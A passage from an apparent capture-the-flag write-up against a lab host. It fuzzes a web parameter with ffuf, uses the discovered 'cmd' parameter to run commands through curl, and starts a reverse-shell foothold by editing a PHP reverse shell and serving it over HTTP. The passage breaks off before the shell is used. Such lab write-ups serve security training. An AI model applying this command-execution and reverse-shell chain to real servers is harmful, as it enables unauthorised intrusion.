 We found an `index.php` file on `/assets` directory. The file seems to be empty.

We can guess that the `index.php` takes some sort of parameter, so let's fuzz for that.

```bash
$ ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.52.164/assets/index.php?FUZZ=whoami -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.52.164/assets/index.php?FUZZ=whoami
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

cmd                     [Status: 200, Size: 12, Words: 1, Lines: 1, Duration: 134ms]

```

We found the parameter `cmd`, Let's see what does it return

```bash
curl -s http://10.10.52.164/assets/index.php?cmd=id | base64 -d
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

It return a base64 encoded string of the command output we run.

## **Foothold**

Let's get a reverse shell.

First I downloaded [ivan's php reverse shell](https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/reverse/php_reverse_shell.php).

I changed the ip address on the code to my tun0 ip address, then I served the file using python http server.

```bash
sudo python3 -m http.server 80
```
